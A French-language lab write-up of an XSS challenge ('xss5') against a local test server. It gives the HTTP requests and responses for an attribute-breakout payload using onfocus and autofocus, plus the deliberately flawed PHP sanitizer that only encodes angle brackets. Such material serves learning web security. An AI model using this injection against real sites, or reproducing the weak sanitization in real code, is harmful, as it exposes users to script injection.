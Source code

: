 # xss5

## Exploitation

Cinquième challenge. L'auteur indique qu'il encode maintenant les caractères `<` et `>` :&#x20;

![](<../../../.gitbook/assets/image (9) (3) (1).png>)

Je tente la payload `<script>alert(1)</script>` afin de vérifier l'encodage. Le mot clé n'est pas réfléchi dans le message d'erreur mais en tant que valeur de l'attribut HTML `value` :&#x20;

![](<../../../.gitbook/assets/image (20) (3).png>)

Et les chevrons sont encodés en entités HTML :&#x20;

```http
POST /xss5/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss5/

search=%3Cscript%3Ealert%281%29%3C%2F%3Cscript%3E&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2159
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="&lt;script&gt;alert(1)&lt;/&lt;script&gt;" placeholder="keyword" required>
</div>
```

Seulement les chevrons sont encodés, il m'est alors possible de réutiliser la même technique d'attaque qu'au challenge xss2, `whatever" onfocus="alert(1)" autofocus x="` :&#x20;

```http
POST /xss5/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss5/

search=whatever%22+onfocus%3D%22alert%281%29%22+autofocus+x%3D%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2160
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever" onfocus="alert(1)" autofocus x="" placeholder="keyword" required>
</div>
```

Et cela fonctionne :

![](<../../../.gitbook/assets/image (49).png>)

## Analyse du code source

Le mot clé est bien réfléchi en tant que valeur de l'attribut HTML `value` mais un assainissement est tout d'abord effectué grâce à la méthode `xss_check()`. Cette méthode remplace les chevrons `<` et `>` en entités HTML :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }

  function xss_check($data) {
    // Converts only "<" and ">" to HTLM entities
    $input = str_replace("<", "&lt;", $data);
    $input = str_replace(">", "&gt;", $input);
    $input = urldecode($input);
    return $input;
  }
?>

<div class="row">
  <form name="forgetPass" method="post">
    <div class="form-group col-md-2">
      <input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo xss_check($keyword); }?>" placeholder="keyword" required>
    </div>
    <div class="form-group col-md-2">
      <input type="submit" class="form-control btn btn-default" name="submit">
    </div>
  </form>
</div>
```
